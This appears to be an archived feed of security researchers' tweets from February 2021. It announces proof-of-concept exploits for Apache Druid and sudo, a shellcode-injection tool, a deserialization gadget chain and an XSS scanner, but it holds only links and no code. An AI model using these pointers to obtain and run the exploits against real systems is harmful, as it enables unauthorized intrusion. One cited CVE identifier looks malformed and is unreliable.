* https://gist.github.com/pikpikcu/0b1cd516088f10577ec5973e595a377f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>167</code></td>
<td>Favorites: <code>508</code></td>
</tr></table>

---

# goby77463399
**https://twitter.com/goby77463399/status/1357234295971135490 _at 2021-02-04 07:47:27_**
<blockquote>
New vulnerability: Apache Druid RCE (CVE-2021-25646)
(Next Version update) 

More Vulnerabilities, https://t.co/wkYqnJXCLb
Provide Feedback, https://t.co/A9JYTBSEIR
Join Telegram, https://t.co/uI4YmQTLPX https://t.co/zt3yI0y9xS
</blockquote>

* http://github.com/gobysec/GobyVuls
* http://github.com/Gobysec/Goby/issues
* http://t.me/gobies

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1356890415685795842 _at 2021-02-03 09:00:59_**
<blockquote>
Found RCE Apache Druid(CVE-2021-25646) 
Nuclei Templates goes here @pdnuclei 🔥

Poc:
https://t.co/rseHiHi9aS https://t.co/8u4njrWgFw
</blockquote>

* https://gist.github.com/pikpikcu/d208f19ea222efe21c4a6e6003d57069

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>271</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1356868898294009861 _at 2021-02-03 07:35:29_**
<blockquote>
CVE-2021-25646 Apache Druid RCE POC
https://t.co/Qot9xXWcZF https://t.co/XmTQ3QWoIU
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

# hasherezade
**https://twitter.com/hasherezade/status/1356818085043462144 _at 2021-02-03 04:13:34_**
<blockquote>
New release: #pe_to_shellcode (#pe2shc) - added DCP support: now the generated shellcode can be injected into a processes with DCP ( "Dynamic Code Prohibited" ) enabled
https://t.co/ZBYsJAneb2 https://t.co/xqW7TkNIeS
</blockquote>

* https://github.com/hasherezade/pe_to_shellcode/releases/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>326</code></td>
</tr></table>

---

# AsahiLinux
**https://twitter.com/AsahiLinux/status/1356687736720089090 _at 2021-02-02 19:35:37_**
<blockquote>
You can now use one M1 Mac to get a serial console on another M1 Mac! All you need is a standard Type C cable, no special hardware required.

This works great with the m1n1 proxyclient support for experimenting with the hardware and loading kernels!

https://t.co/ZDOLyU8559
</blockquote>

* https://github.com/AsahiLinux/macvdmtool

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>153</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1356643660268527616 _at 2021-02-02 16:40:28_**
<blockquote>
NSA Codebreaker Challenge 2020 - Solutions :  https://t.co/bV7Thz1rnD credits @luker983
</blockquote>

* https://github.com/luker983/nsa-codebreaker-2020

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1356642801161748480 _at 2021-02-02 16:37:03_**
<blockquote>
Dissecting a MediaTek BootROM exploit : https://t.co/SCswsFLsOE 

MTK-bypass : https://t.co/xdp0Kk7IhD https://t.co/fILiafYN3I
</blockquote>

* https://tinyhack.com/2021/01/31/dissecting-a-mediatek-bootrom-exploit/
* https://github.com/MTK-bypass

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# PortSwiggerRes
**https://twitter.com/PortSwiggerRes/status/1356636420320952320 _at 2021-02-02 16:11:42_**
<blockquote>
A new deserialization gadget chain has been submitted to ysoserial by our researcher @artsploit. Wondering how it was used in a zero day RCE exploit? We will publish a writeup soon after the patch! https://t.co/alvbS4Bslr
</blockquote>

* https://github.com/frohoff/ysoserial/pull/154/files

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>163</code></td>
</tr></table>

---

# _0xf4n9x_
**https://twitter.com/_0xf4n9x_/status/1356625706407653379 _at 2021-02-02 15:29:07_**
<blockquote>
Apache Druid Remote Code Execution

POC: https://t.co/lMihyXmEav

#CVE-2021-25646 https://t.co/qZMWbL5yPI
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1356488016936775681 _at 2021-02-02 06:22:00_**
<blockquote>
Exploit python para WordPress 5.0.0 - Image #RCE Remote Code Execution CVE-2019-89242 | CVE-2019-89242 #exiftool https://t.co/bwfPynCOIw
</blockquote>

* https://www.exploit-db.com/exploits/49512

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# Bank_Security
**https://twitter.com/Bank_Security/status/1356340545543495681 _at 2021-02-01 20:36:00_**
<blockquote>
A Threat Actor is selling a list of 180,000 IPs vulnerable to BlueKeep (CVE-2019-0708).

#BlueKeep is a well-known critical RCE vulnerability in Microsoft's RDP service discovered nearly 2 years ago...

...if you haven't done it yet, patch it now! https://t.co/peY8cFVfmm
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1356269259853324291 _at 2021-02-01 15:52:44_**
<blockquote>
CISA has released an advisory last week about SUPERNOVA, the malware implanted on SolarWinds systems via the CVE-2020-10148 vulnerability, and separate from the broader supply chain attack

https://t.co/RXTHSR0w6U https://t.co/R5nBbMkrvt
</blockquote>

* https://us-cert.cisa.gov/ncas/analysis-reports/ar21-027a

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1356238440896065538 _at 2021-02-01 13:50:16_**
<blockquote>
RT @r4j0x00: My exploit for sudo CVE-2021-3156 that ACTUALLY works. Tested on ubuntu 18.04 and 20.04.
https://t.co/d6pE5dVBWJ https://t.co/…
</blockquote>

* https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>502</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# RenwaX23
**https://twitter.com/RenwaX23/status/1356224094023397377 _at 2021-02-01 12:53:16_**
<blockquote>
Today I release my new tool XSSTRON 🎉
Electron JS Browser To Find XSS Vulnerabilities🌟

Browse the web and it will automatically check for XSS vulnerabilities in background Reflected, Stored and DOM with support of POST requests too

https://t.co/4JyMIC5nE3 https://t.co/OOpTdjeVEb
</blockquote>

* https://github.com/RenwaX23/XSSTRON

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>328</code></td>
<td>Favorites: <code>921</code></td>
</tr></table>

---

# axi0mX
**https://twitter.com/axi0mX/status/1356197640552161282 _at 2021-02-01 11:08:09_**
<blockquote>
Not only is @p0sixninja one of the most well known researchers in the history of iOS jailbreaking, he is also publicly recognized by Apple for CVE-2019-8718 fixed in iOS 13.

Despite all that, Apple rejected his application for a Security Research Device.

https://t.co/8S2TDdKDnu https://t.co/6QpH2EpkLU
</blockquote>

* https://twitter.com/p0sixninja/status/1355953193738330114

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>373</code></td>
</tr></table>

---

